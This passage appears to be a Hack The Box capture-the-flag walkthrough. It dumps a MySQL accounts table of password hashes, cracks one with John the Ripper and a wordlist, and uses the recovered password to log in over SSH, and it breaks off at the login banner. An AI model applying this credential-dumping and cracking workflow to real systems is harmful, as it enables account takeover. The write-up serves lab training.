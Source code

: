     mysql> describe accounts;
    describe accounts;
    +------------+--------------+------+-----+-------------------+----------------+
    | Field      | Type         | Null | Key | Default           | Extra          |
    +------------+--------------+------+-----+-------------------+----------------+
    | id         | int(11)      | NO   | PRI | NULL              | auto_increment |
    | username   | varchar(50)  | NO   | UNI | NULL              |                |
    | password   | varchar(255) | NO   |     | NULL              |                |
    | created_at | datetime     | YES  |     | CURRENT_TIMESTAMP |                |
    +------------+--------------+------+-----+-------------------+----------------+
    4 rows in set (0.00 sec)

    mysql> select * from accounts;
    select * from accounts;
    +----+----------+------------------------------------+---------------------+
    | id | username | password                           | created_at          |
    +----+----------+------------------------------------+---------------------+
    |  1 | m4lwhere | $1$🧂llol$DQpmdvnb7EeuO6UaqRItf. | 2021-05-27 18:18:36 |
    |  2 | W0lfysec | $1$🧂llol$rCfLNVEV/lMn6ru.fXs/a1 | 2021-09-09 12:46:25 |
    +----+----------+------------------------------------+---------------------+
    2 rows in set (0.00 sec)

// We got user 'm4lwhere' hash

// we can crack it using john using format: md5crypt-long 

    $ john hash.txt --wordlist=../../../../../../htb/wordlists--/rockyou.txt --format=md5crypt-long 
    Using default input encoding: UTF-8
    Loaded 1 password hash (md5crypt-long, crypt(3) $1$ (and variants) [MD5 32/64])
    Will run 4 OpenMP threads
    Press 'q' or Ctrl-C to abort, almost any other key for status
    ilovecody112235! (?)
    1g 0:00:53:13 DONE (2021-09-09 10:38) 0.000313g/s 2321p/s 2321c/s 2321C/s ilovecodydean..ilovecody..
    Use the "--show" option to display all of the cracked passwords reliably
    Session completed

// We got 'm4lwhere' user password !!

    m4lwhere : ilovecody112235!
    
// We can try to SSH to the machine now

// And we got user flag !!!

    $ ssh m4lwhere@10.10.11.104
-------

    m4lwhere@10.10.11.104's password: 
    Welcome to Ubuntu 18.04.5 LTS (GNU/Linux 4.15.0-151-generic x86_64)
